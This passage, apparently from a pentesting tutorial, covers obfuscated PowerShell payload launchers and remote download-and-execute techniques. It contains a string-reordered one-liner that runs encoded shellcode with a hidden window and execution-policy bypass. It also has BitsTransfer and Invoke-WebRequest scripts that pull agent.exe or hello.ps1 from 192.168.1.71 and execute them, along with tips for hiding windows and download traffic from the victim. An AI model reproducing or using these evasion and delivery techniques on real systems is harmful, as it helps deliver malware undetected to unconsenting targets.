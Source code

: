       $syscall=("{1}{0}" -f'N','-Wi'); $flag=("{1}{0}{2}" -f'Id','h','DEn'); $cert=("{1}{0}" -f'p','-E'); $pem=("{1}{2}{0}" -f'SS','by','pA'); powershell -C "set-variable -name "C" -value "-"; set-variable -name "s" -value "e"; set-variable -name "q" -value "n"; set-variable -name "P" -value ((get-variable C).value.toString()+(get-variable s).value.toString()+(get-variable q).value.toString()) ; powershell $syscall $flag $cert $pem (get-variable P).value.toString() ENCODED-BASE64-SHELLCODE"

![powershell obfuscation](http://i66.tinypic.com/kdabsh.png)

      HINT: I have re-written REL1K's template to accept -WiN hIdDEn -Ep bYpASS (reorder obfuscation)
      and change the powershell 'EncodingCommand' from -ec to -en (less used flag by pentesters).

---

      [ BitsTransfer - Additional Methods for Remote Download ]
      Another way to download/execute remotelly our agent without using the powershell switch
      (Net.WebClient).DownloadFile method. This method also allow us to chose the download
      location of the agent in target system and start the agent (exe).

      HINT: powershell gives us access to windows environment variables using the $env: switch

<br />

- File **test.ps1** (trigger download/execution)

      Import-Module BitsTransfer
      Start-BitsTransfer -Source "http://192.168.1.71/agent.exe" -Destination "$env:tmp\\agent.exe"
      Invoke-Item "$env:tmp\\agent.exe" #<-- trigger agent execution

![powershell obfuscation test.ps1](http://i66.tinypic.com/23u8ua8.jpg)

- Execution of **agent.exe** in target system (auto-exec)

![powershell obfuscation msfconsole](http://i63.tinypic.com/2lo6a9e.jpg)

---

      [ Invoke-WebRequest - Additional Methods for Remote Download ]
      This method 'Invoke-WebRequest' working together with 'OutFile' and 'File'  powershell parameters
      allow us to remote download (full path can be inputed into sourcecode string) and execute our script.

      HINT: If you wish to download/execute an binary.exe, then replace the -File by Invoke-Item parameter
      HINT: To upload to another location use $env: powershell var (eg. -OutFile "$env:tmp\\Invoke-Hello.ps1")
      HINT: In this example was not used the -win hidden switch that allow us to hidde the powershell windows
      HINT: Delete -PassThru from the sourcecode to NOT display the download traffic in target terminal, that
      parameter was left behind for article readers to see the download connection taking place ..


<br />

- File **Invoke-WebRequest.ps1** (trigger download/execution)

      Invoke-WebRequest "http://192.168.1.71/hello.ps1" -OutFile "hello.ps1" -PassThru; Start-Sleep 1; powershell.exe -File hello.ps1
